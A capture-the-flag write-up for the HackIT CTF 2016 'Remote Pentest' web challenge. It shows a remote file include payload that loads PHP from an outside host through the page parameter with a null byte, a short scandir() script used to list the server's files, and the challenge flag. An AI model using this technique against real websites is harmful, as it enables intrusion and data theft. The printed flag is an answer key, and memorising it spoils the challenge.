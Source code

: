 # Remote Pentest

### Challenge
- **Competition:** HackIT CTF 2016
- **Category:** Web
- **Points:** 150

> Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack. Good luck!
> http://91.231.84.36:9150/


### Solution

I liked this challenge.  I think it was well made.  It was easy to find the right direction, but it took a little bit of consideration to find the answer.  I'm not even convinced my solution was the most straightforward, but it certainly worked.

After poking around the site HTML for a few minutes, I found a possible file include vulnerability and attempted to exploit it as a remote file include by navigating to the page `/index.php?page=http://google.com%00`.  Google's homepage did in fact load into the site, confirming a remote file include vulnerability.  I could exploit this by hosting a malicious PHP file and accessing it by visiting `/index.php?page=http://mysite.com/phpscript.txt%00`.

My first thought was to use a PHP web shell, but it seemed like the PHP `system()` function was disabled.

At this point I wanted to see if any PHP functions were working, so I tried running `phpinfo()`.  That was a fortuitous plan not only because it worked, but because it then pointed me in the right direction.  The server's document root was configured to __/var/www/srv/www__, which I then thought to scan for other documents, especially something like __flag.txt__.  I used the PHP `scandir()` function, which returned the following array:

```php
Array ( 
	[0] => . 
	[1] => .. 
	[2] => .htaccess 
	[3] => .htaccess_kab 
	[4] => about.php 
	[5] => contact.php 
	[6] => css 
	[7] => fonts 
	[8] => index.php 
	[9] => js 
	[10] => php.ini 
	[11] => services.php 
	[12] => sup3r_$3cr3t_f1le.php 
)
```

Found it.  Navigating to the subtly named __sup3r_$3cr3t_f1le.php__ prints the flag.

### Script (PHP)

```php
<?php
$dir = scandir('/var/www/srv/www');
print_r($dir);
?>
```

### Flag

`h4ck1t{g00d_rfi_its_y0ur_fl@g}`